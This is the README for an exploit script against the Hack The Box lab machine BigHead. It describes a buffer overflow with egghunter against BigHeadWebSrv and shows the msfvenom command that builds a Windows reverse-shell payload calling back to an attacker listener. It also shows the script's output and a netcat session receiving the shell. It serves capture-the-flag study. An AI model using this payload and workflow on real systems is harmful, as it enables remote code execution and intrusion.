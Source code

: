 ## Challenge

[BigHead](https://www.hackthebox.eu/home/machines/profile/164) from Hackthebox.eu

## pwn_bighead.py

### Description

Performs a buffer overflow attack against `BigHeadWebSrv`. Script first submits POST requests to put shellcode into memory, and then points EIP to EggHunter code which looks for and executes that shellcode in memory. Script also handles shellcode generation using `msfvenom`, saving the shellcode as a python file and then importing it. The script will then clean up that file.

### Reference

Originally published in blog posts: [https://0xdf.gitlab.io/2019/05/04/htb-bighead-bof.html](https://0xdf.gitlab.io/2019/05/04/htb-bighead-bof.html).

### Dependencies

- python pwntools
- `msfvenom` in the current path

### Usage

```
root@kali# python pwn_bighead.py 
pwn_bighead.py [target] [target port] [callback ip] [callback port]

root@kali# python pwn_bighead.py 10.10.10.112 80 10.10.14.14 443
[*] Generating shellcode:
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXIT_FUNC=THREAD -a x86 --platform windows -b "\x00\x0a\x0d" -f python -v shellcode -o sc.py
[+] Shellcode generated successfully
[*] Sending payload 5 times
[+] Opening connection to 10.10.10.112 on port 80: Done
[*] Closed connection to 10.10.10.112 port 80
[+] Opening connection to 10.10.10.112 on port 80: Done
[*] Closed connection to 10.10.10.112 port 80
[+] Opening connection to 10.10.10.112 on port 80: Done
[*] Closed connection to 10.10.10.112 port 80
[+] Opening connection to 10.10.10.112 on port 80: Done
[*] Closed connection to 10.10.10.112 port 80
[+] Opening connection to 10.10.10.112 on port 80: Done
[*] Closed connection to 10.10.10.112 port 80
[+] Payload sent.
[*] Sleeping 1 second.
[*] Sending overflow + egghunter.
[*] Expect callback in 0-15 minutes to 10.10.14.14:443.
[+] Opening connection to 10.10.10.112 on port 80: Done
```

```
root@kali:~/hackthebox/kryptos-10.10.10.129# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.112.
Ncat: Connection from 10.10.10.112:51390.
Microsoft Windows [Version 6.0.6002]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\nginx>whoami
whoami
piedpiper\nelson
```

